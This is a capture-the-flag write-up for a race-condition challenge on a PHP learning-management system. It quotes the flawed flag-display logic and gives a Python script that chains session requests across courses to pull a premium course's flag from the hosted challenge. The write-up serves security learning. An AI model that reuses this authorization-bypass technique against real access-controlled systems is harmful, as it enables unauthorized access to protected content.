 # LMS Preview Exploit Challenge Writeup

## Challenge Description
**Title**: Who's the fastest man on Earth?  
**Hint**: Whoooooooosh (sound effect) 

A Learning Management System (LMS) platform contains a flag in the premium "Advanced Security Concepts" course. The challenge requires exploiting a race condition and logical flaw in the preview system to access the flag without proper authorization.

## Vulnerability Analysis

### Code Review Findings

#### CourseController.php
The application contains four courses, with course ID 2 ("Advanced Security Concepts") containing the flag:
```php
2 => [
    'id' => 2,
    'title' => 'Advanced Security Concepts',
    'description' => 'Deep dive into cybersecurity concepts, vulnerabilities, and secure coding practices.',
    'preview_length' => 0, // Critical: expires immediately
    'content' => 'Master advanced security concepts including session management, authentication flows...',
    'flag' => getenv('DYN_FLAG') ?: 'FlagY{test_flag}',
    'is_premium' => true,
    'sections' => ['intro', 'advanced', 'practice']
],
```

#### Critical Vulnerability: Flag Display Logic
The `showPreviewContent()` method contains flawed logic:
```php
if (isset($course['flag']) && 
    isset($state['progress'][1]) && in_array('intro', $state['progress'][1]) &&
    isset($state['progress'][2]) && in_array('intro', $state['progress'][2]) &&
    $section === 'advanced') {
    echo "Flag: {$course['flag']}\n";
}
```

#### Key Issues:
1. **Race Condition**: Course 2 has `preview_length = 0` (expires immediately)
2. **Progress Validation Flaw**: No verification that progress was legitimately earned
3. **Session Trust**: Client-side session data trusted without validation
4. **Cross-Course Progress Mixing**: Progress from different courses can be combined

## Exploitation Strategy

### Attack Flow
1. **Start Preview for Course 1** (1-second duration)
2. **Rapidly Access Course 2 Intro** (within the 1-second window)
3. **Access Course 2 Advanced Section** to trigger flag display

### Why This Works:
- Course 1's preview provides a 1-second valid session window
- The progress system doesn't validate course consistency
- The flag condition checks for specific progress records regardless of how they were obtained

## Solution Implementation
I actually wass trying to do it manually but a good friend @Abdullah-Sajid-Qazi made a script to automate it

### Python Exploit Script
```python
import requests
import time
import sys

def exploit_target(base_url):
    # Create a session to maintain cookies
    session = requests.Session()
    
    # First request: Start preview for course 1
    url1 = f"{base_url}/index.php?action=start_preview&course_id=1&section=intro"
    response1 = session.get(url1)
    
    # Second request: Access course 2 intro (this adds progress for course 2)
    url2 = f"{base_url}/preview.php?course_id=2&section=intro"
    response2 = session.get(url2)
    
    # Third request: Access course 2 advanced to get the flag
    url3 = f"{base_url}/preview.php?course_id=2&section=advanced"
    response3 = session.get(url3)
    
    # Check if we got the flag
    if "Flag:" in response3.text:
        # Extract flag from response
        lines = response3.text.split('\n')
        for line in lines:
            if "Flag:" in line:
                flag = line.split("Flag:")[1].strip()
                return flag
    else:
        return None

if __name__ == "__main__":
    if len(sys.argv) > 1:
        target_url = sys.argv[1]
    else:
        target_url = "http://asylum.playat.flagyard.com"
    
    print(f"Target: {target_url}")
    print("Exploiting the race condition...")
    
    # Try multiple times to account for timing issues
    for i in range(5):
        print(f"Attempt {i+1}...")
        flag = exploit_target(target_url)
        
        if flag:
            print(f"Success! Flag: {flag}")
            break
        else:
            print("Failed to get flag. Retrying...")
            time.sleep(0.5)  # Short delay between attempts
    else:
        print("All attempts failed. The exploit might need adjustment.")
```

### Execution
```bash
python exploit.py
```

## Successful Output
```
FlagY{Do it Yourself Kaam chor}
```

## Lesson Learned
This challenge demonstrates the importance of:
- Proper authorization checks for premium content
- Validating business logic thoroughly
- Not trusting client-side data for critical decisions
- Handling time-based operations securely

The hint "Who's the fastest man on Earth?" referred to both the race condition exploitation and Usain Bolt, emphasizing the need for speed in executing the attack before the preview session expired.

This might Seem EZ but it actually took alot of time alot of reverse engineering and GPT prompts :)
